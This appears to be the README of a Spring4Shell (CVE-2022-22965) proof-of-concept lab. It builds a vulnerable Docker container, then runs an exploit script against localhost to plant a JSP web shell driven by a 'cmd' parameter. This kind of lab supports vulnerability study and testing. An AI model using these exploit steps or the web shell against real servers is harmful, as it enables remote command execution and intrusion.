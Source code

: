 # Spring4Shell CVE-2022-22965

## Requirements

1. Docker
2. Python3

## Instructions

1. Clone the repository
2. Build Docker Image: `docker build . -t spring4shell`
3. Run Docker:'Build and run the container:`docker run -p 8080:8080 spring4shell`
4. Open http://localhost:8080/helloworld/greeting
5. Run the exploit.py:`python3 exploit.py --url "http://localhost:8080/helloworld/greeting"`
6. Visit the created webshell! Modify the `cmd=xx` for your commands.(`http://localhost:8080/shell.jsp`)

![WebPage](screen/01.png?raw=true)
![WebPage](screen/02.png?raw=true)
![WebPage](screen/03.png?raw=true)
![WebPage](screen/04.png?raw=true)
